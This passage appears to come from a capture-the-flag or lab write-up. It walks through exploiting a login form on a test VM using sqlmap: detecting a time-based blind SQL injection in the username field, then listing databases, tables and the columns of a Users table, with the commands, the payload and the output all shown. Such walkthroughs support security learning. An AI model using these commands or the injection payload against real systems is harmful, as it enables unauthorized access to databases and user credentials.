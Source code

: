 ## Exploitation
### SQL Injection

To further test the login form I used sqlmap, this detected a SQL Injection vulnerability in the username parameter.

```console
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5
...
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 4856 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 8370 FROM (SELECT(SLEEP(5)))txxC)-- bzWz&password=password&submit= Login
---
[21:42:20] [INFO] the back-end DBMS is MySQL
...
```

Listing the available databases.

```console
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5 --dbms=mysql --dbs
...
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp
```

Retrieving the users table from the Webapp database.

```console
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5 --dbms=mysql -D Webapp --tables
...
Users
Database: Webapp
[1 table]
+-------+
| Users |
+-------+
```

Listing the columns from the table users.

```console
root@kali:~$ sqlmap -u http://192.168.179.161:1337/978345210/index.php --data "username=admin&password=password&submit=+Login+" --risk 3 --level 5 --dbms=mysql -D Webapp -T Users --columns
...
Database: Webapp
Table: Users
[3 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| id       | int(10)      |
| password | varchar(255) |
| username | varchar(255) |
+----------+--------------+
```